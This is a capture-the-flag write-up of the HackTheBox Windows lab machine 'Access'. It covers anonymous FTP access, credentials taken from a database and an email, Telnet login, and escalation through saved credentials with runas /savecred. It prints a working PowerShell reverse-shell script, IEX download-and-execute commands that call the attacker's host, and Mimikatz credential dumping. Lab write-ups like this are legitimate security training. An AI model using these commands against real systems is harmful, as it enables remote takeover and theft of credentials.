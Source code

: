 ```yaml
---
title: HackTheBox - Access
categories: [HTB]
published: true
description: Windows CTF from HTB. Anonymous FTP login and saved credentials privilege escalation.
---
```


## Machine Information  

- **Name:** Access  
- **Platform:** HackTheBox  
- **Difficulty Level:** Easy  
- **OS:** Windows  
- **IP/Hostname:** 10.10.10.98  
- **Description:** This machine shows why anonymous FTP login is dangerous. Saved credentials in the Windows Credentials Manager can be leveraged to escalate privileges after initial foothold.

---

## Nmap - Open Ports and Service Identification  

```bash
sudo nmap -sV -sC 10.10.10.98 -Pn
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

Initial scan result shows several services running on the target system. The operating system is Windows since one of the services is Microsoft-IIS webserver. Although the target system is Windows, the SMB service is not running, which takes away some options such as using enum4linux, smbmap or netexec tools. However, the most interesting service at first glance is probably FTP because it allows anonymous login.

---

## Port 21

To connect to FTP service, simply run:


```bash
ftp anonymous@10.10.10.98
```
When prompted for a password during anonymous FTP login, any input can be provided as authentication is not required. Let's try to list available content with `ls` command:

```
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
```

There are 2 directories named *Backups* and *Engineer*. By navigating into these directories using the `cd` command, we can find the files *backup.mdb* and *Access Control.zip*. These files can be downloaded using the `get [FILENAME]` command. To ensure the files are downloaded correctly, switch the transfer mode to binary using `binary` command before downloading.

---

## Enumerating downloaded files

After both files are downloaded from FTP service, we can perform some basic enumeration on these files. The `file [FILENAME]` command can be used to get initial information about the file type. The *Access Control.zip* file is a zip archive and the *backup.mdb* file is a MS Access database. Hence the name of the machine "Access" :). If you would try to unzip the *Access Control.zip* file, you would notice it is encrypted, so let's start with enumerating *backup.mdb*.

A quick Google search shows that .mdb files can be processed and viewed by `mdbtools` package on Kali. After the package is installed, it is important to enumerate the tables inside the .mdb file. This can be done using the following command:

```bash
sudo mdb-tables backup.mdb

```

Output of this command is very large, but the table we are looking for is *auth_user* because it looks like it could store user's credentials for initial access into the target system. Let's export this table with the following command:

```bash
mdb-export backup.mdb auth_user
```

```
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Alright, there are some user credentials. You can take a note of these, but the most valuable information from this output is the *engineer* user's password, which is the only non-default password. With this new password, it is worth to try to extract the *Access Control.zip* file. The following command can be used for this:

```bash
7z e -paccess4u@security "Access Control.zip"
```

This command extracts the archive and creates a new *Access Control.pst* file. A .pst is a file format used by Microsoft Outlook to store copies of emails. Another quick Google search suggested to use the *evolution* package to view this file in Kali Linux. Install it and run it using the `evolution` command. It is a personal information management application that provides integrated mail, calendaring and address book functionality, allowing us to Import and view the .pst file by choosing *File -> Import* and selecting the .pst file.

After successfully importing the file, we can see an email with the following content:

![Email body](/assets/img/email.png)

We can see that there is yet another set of credentials *security:4Cc3ssC0ntr0ller*. These credentials can be used for Telnet login.

---

## Initial Foothold

Telnet connection can be done with this command:

```bash
telnet 10.10.10.98 23
```

![Telnet connection](/assets/img/telnet.png)

The credentials from the email body are working and we now have an initial access with low-privileged user.

---

## Privilege Escalation

With the initial access, it is possible to perform some additional enumeration inside the target system. Looking for the current user's privileges, group memberships, or installed software is a great thing to do, but this won't work here.

The actual path to escalate privileges is to look for saved credentials in Credential Manager. The Credential Manager can store credentials of other users for specific purposes. For example, allowing a low-privileged user to run a specific application as a high-privileged user without the need of their credentials or mapping a remote share as another user. To view stored credentials in *cmd*, type the following command:

```bash
cmdkey /list
```

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

The output shows that Administrator user's credentials are stored and can be used for vertical privilege escalation without knowing the actual password. Creating a Powershell reverse shell script, downloading it to the target machine and executing it in memory as Administrator could be one way of escalating privileges.

First, create the shell.ps1 file on Kali machine with the following content:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Change the *IP* and *PORT*, then save it and start a python web listener in the same directory.

```bash
sudo python3 -m http.server 80
```

Then start a netcat listener to catch the reverse shell connection.

```bash
nc -lvnp 4444
```

Now on the target system, run the following command that downloads the shell.ps1 reverse shell and executes it directly in memory as Administrator.

```powershell
runas /user:ACCESS\Administrator /savecred "powershell.exe -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.15/shell.ps1')"
```

This command executed a reverse shell in memory as Administrator and we should catch the connection on our Kali machine.

---

## Credential Dumping

Now that we have control over Administrator account, we can of course get a root flag and complete the challenge, or we can play further and try to some post exploitation with mimikatz. Since executing .exe files was restricted on this machine, my choice was to use **Invoke-Mimikatz.ps1**.

First, start a python web server on kali machine hosting Invoke-Mimikatz.ps1 and then download it and execute it from memory on the target system.

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.15/Invoke-Mimikatz.ps1')
```

Now we can dump the credentials, which includes also Administrator's clear text password using this command:

```powershell
Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
```